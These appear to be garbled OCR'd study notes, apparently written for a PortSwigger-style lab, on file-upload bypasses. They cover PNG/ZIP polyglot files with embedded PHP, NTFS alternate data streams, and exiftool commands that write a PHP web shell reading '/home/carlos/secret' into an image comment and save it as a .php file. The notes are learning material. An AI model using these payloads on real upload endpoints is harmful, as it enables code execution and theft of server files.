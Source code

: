 > >     Polyglot files are crafted to be valid in multiple contexts. For example, a file that is both a valid PNG and a valid ZIP archive can be used to bypass security checks.
> >
> >     **Example**:
> >
> >     ```php-template
> >     phpCopy codePNG Magic Bytes: 89 50 4E 47 0D 0A 1A 0A
> >     ZIP Magic Bytes: 50 4B 03 04
> >     Content:
> >     Embedded Malicious Code: <?php echo 'Malicious Code'; ?>
> >     ```
> >
> >
> > *   **Constructed File**:
> >
> >     ```php-template
> >     phpCopy codeHex:
> >     89 50 4E 47 0D 0A 1A 0A ... 50 4B 03 04 ... 3C 3F 70 68 70 20 65 63 68 6F 20 27 4D 61 6C 69 63 69 6F 75 73 20 43 6F 64 65 27 3B 20 3F 3E ...
> >
> >     ASCII:
> >     ‰PNG ... PK.. ... <?php echo 'Malicious Code'; ?>
> >     ```
>
> NTFS Data Steam:&#x20;
>
> > Its allows files to contain more then one streams data, This can be used to hide a data with additional in a files
> >
> > * `echo "This is hidden data" > FILE.txt:hiddenfile.exe`
> >   * `File.txt` is a primary file which is goes to be uploaded
> >   * `:hiddenfile.exe` is the hidden data stream attached to file.exe
>
> Polyglot web shell
>
> > * File that trick web application into thinking it is there is more then one type of files.
> > * A files which looks harmless and have hidden instructions to execute code.
> > * Steps
> >   * Change the parameters of the image
> >     * Modify the file to act both image (PNG) and executable code(PHP).
> >   * Use Polyglot
> >     * Create a file with MIME type PNG but with PHP code executing malicious code.
> >   * Add PHP code Using EXIF Tools
> >     * Use the EXIF Tool to add PHP code into the image meta data hiding the code within an image file.
> >       * add the code into image comment
> >         * `exiftool -comment="<?php echo 'This is Shadow' . file_get_contents('/home/carlos/secret') . ' Getting carlos '; ?>" shadowguardian.png`
> >       * Output the modify images as PHP file
> >         * `exiftool -comment="<?php echo 'This is Shadow' . file_get_contents('/home/carlos/secret') . ' Getting carlos '; ?>" shadowguardian.png -o shadowguard.php`
>
> ```
> exiftool -comment="<?php echo 'This is Shadow' . file_get_contents('/home/carlos/secret') . ' Getting carlos '; ?>" shadowguardain.png
> exiftool -comment="<?php echo 'This is Shadow' . file_get_contents('/home/carlos/secret') . ' Getting carlos '; ?>" shadowguardain.png  -o shadowguard.php
> exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php/
> exiftool -comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" input.jpg -o polyglot.php
>
> ```
>